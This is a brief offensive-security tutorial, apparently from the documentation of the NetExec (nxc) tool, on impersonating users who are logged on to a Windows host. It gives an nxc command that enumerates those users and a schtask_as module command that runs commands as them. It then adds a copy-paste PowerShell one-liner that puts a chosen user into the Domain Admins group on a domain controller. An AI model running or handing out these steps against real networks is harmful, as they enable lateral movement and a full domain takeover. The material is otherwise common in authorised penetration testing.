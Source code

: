 # Impersonate logged-on users

## You need at least local admin privilege on the remote target!

### The Module schtask_as can execute commands on behalf on other users which has sessions on the target

### 1) Enumerate logged-on users on your target

#### nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users

### 2) Execute commands on behalf of other users

#### nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user< CMD=<cmd-command<

## Custom command to add an user to the domain admin group for easy copy&pasting: 

#### powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
